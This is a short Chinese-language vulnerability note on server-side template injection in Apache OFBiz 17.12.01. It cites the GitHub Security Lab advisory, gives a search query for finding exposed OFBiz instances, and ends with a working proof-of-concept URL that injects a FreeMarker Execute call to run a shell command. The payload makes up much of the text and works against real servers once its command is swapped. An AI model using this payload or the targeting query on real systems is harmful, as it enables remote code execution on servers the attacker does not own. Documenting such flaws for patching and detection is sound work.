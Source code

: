 # Apache OfBiz 远程代码执行 RCE

## 漏洞描述

Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-066-apache_ofbiz

## 网络测绘

```
app="Apache_OFBiz"
```

## 漏洞复现

poc：

```
https://localhost/ordermgr/control/FindRequest?foo=bar"ajaxEnabled=false/>${"freemarker.template.utility.Execute"?new()("id")}<FOO
```

